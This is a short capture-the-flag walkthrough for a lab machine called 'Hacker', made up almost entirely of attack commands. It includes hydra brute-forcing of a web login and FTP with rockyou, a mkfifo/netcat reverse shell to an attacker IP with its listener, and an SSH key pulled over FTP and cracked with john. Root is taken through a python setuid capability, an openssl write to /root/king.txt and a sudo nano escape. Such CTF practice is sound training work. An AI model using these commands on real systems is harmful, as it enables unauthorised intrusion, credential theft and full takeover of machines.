 Hacker


**NOTE: This machine resets passwords automatically and are different on every game.**
https://jc01.ninja/ctf/hackers/
## Getting a shell:

- `hydra IP http-post-form '/api/login:username=^USER^&password=^PASS^:Incorrect' -l plague -P /usr/share/wordlists/rockyou.txt -t 64`
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 4242 >/tmp/f`
- on your machine: `nc -lvnp 4242`
Change to ssh key + login

### Getting root
- `sudo -l`
```
LFILE=file_to_write
echo $USERNAME | openssl enc -out "/root/king.txt"
```

Getting root shell:
`python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`
Remove Capability:
`setcap -r /usr/bin/python3.6`
`setcap -r /usr/bin/python3.6m`

### Method 2
- `ftp IP` anonymous:anything
	- `passive`
	- `get note`
- brute force ftp credentials using users `hydra ftp://IP -l gcrawford -P /usr/share/wordlists/rockyou.txt -t 64`
- `ftp IP` 
	- `get id_rsa`
- `python3 /usr/share/john/ssh2john.py id_rsa > ssh_hash.txt`
- `john ssh_hash.txt --format=ssh --wordlist=/usr/share/wordlists/rockyou.txt`
- `ssh -i id_rsa gcraford@IP`
`sudo nano`
`^R^X`
`reset; sh 1>&0 2>&0`

### Method 3
- `hydra ftp://IP -l rcampbell -P /usr/share/wordlists/rockyou.txt -t 64`
- `ssh` in with password
